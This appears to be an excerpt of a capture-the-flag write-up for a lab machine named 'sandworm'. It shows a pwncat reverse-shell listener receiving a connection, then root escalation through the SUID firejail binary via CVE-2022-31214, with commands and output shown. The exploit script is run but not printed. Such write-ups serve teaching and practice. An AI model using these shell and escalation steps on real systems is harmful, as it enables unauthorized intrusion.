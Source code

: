 ```bash
> pc -lp 9005
[17:39:09] Welcome to pwncat 🐈!
[17:42:11] received connection from 10.129.77.232:48300
[17:42:12] 0.0.0.0:9005: upgrading from /usr/bin/dash to /usr/bin/bash
[17:42:13] 10.129.77.232:48300: registered new host w/ db
(local) pwncat$
(remote) atlas@sandworm:/opt/tipnet$ id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas),1002(jailer)
(remote) atlas@sandworm:/opt/tipnet$

```


---
## Privilege Escalation to root
----

The user `atlas` is a member of the `jailer` group, which has access to the `firejail` binary. Interestingly, the `firejail` binary is owned by the root user and has the SUID bit set.

```bash
(remote) atlas@sandworm:/home/atlas$ find / -group jailer 2>/dev/null
/usr/local/bin/firejail
(remote) atlas@sandworm:/home/atlas$ ls -la /usr/local/bin/firejail
-rwsr-x--- 1 root jailer 1777952 Nov 29  2022 /usr/local/bin/firejail
(remote) atlas@sandworm:/home/atlas$ firejail --version
firejail version 0.9.68
...snip...
```

### Firejail Exploit

Looking for potential exploits for the SUID bit on `firejail`, I came across a security advisory for [CVE-2022-31214](https://github.com/advisories/GHSA-m2xv-wgqg-4gxh), relating to firejail version 0.9.68.

> This CVE report describes a local root exploit vulnerability in Firejail version 0.9.68 and likely various older versions. The vulnerability allows an unprivileged user to fake a legitimate Firejail process and gain root privileges. By creating a custom user and mount namespace, an attacker can manipulate the environment to make /run/firejail writeable and create a symlink that points to a file meeting specific requirements. This allows the attacker to trick Firejail into joining the manipulated environment, ultimately granting them root privileges.

Openwall also [published a PoC](https://www.openwall.com/lists/oss-security/2022/06/08/10/1) for this exploit. To exploit this, I will need two sessions as atlas, one to execute the exploit, creating a fake firejail process by creating a symklink at `/run/firejail/mnt/join` and another to _join_ to the said process which runs with euid 0.
By default firejail set the `NO_NEW_PRIVS` flag for sandboxed process, but in this situation the firejail env is faked so it is not set. Additionally, firejail's join trusts the target process, so it also has the `NO_NEW_PRIVS` flag unset.

```bash
(remote) atlas@sandworm:/dev/shm$ ./firejail_exploit.py
You can now run 'firejail --join=22960' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```
